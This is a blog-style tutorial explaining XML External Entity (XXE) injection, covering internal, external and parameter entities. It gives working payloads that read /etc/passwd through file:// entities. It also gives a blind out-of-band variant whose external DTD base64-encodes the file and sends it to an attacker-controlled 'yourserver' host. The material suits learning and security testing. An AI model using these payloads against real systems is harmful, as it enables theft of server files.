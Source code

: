 Hi all,

In this post we will cover these following topics.

What is XXE?
How to confirm XXE?
How Exploit Basic XXE?
How Blind XXE works?
and a alternative of blind XXE payload.

But first let's understand some basic keywords.

**Entity**: Entities *reference* data that act as an abbreviation or can be found at an external location. Syntax:- **&test;**

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

**Payload 1**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`<br>
`<root>&test;</root>`<br>

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

## What if the xml data is not showing to us? (Blind XXE Case)

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

**Payload 2**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`<br>
`<root>&entity;</root>`<br>

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, *Have anyone arise a question that why **we call the dtd from attacker's server?** Why not this below payload works?*

**Payload 3**:- 

`<?xml version="1.0"?>`<br>
`<!DOCTYPE root [`<br>
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`<br>
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`<br>
`<root>&test;</root>`<br>

this would be easier than before? Yes it is, but it is not going to work. 

**Actually parameter entity can't be called inside the DTD subset they can be called in the External subset (like we did in Payload no 2. It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

That's all guys, I just want to share because I want. :)

Hope you like this read. 

Have a good hacking day.




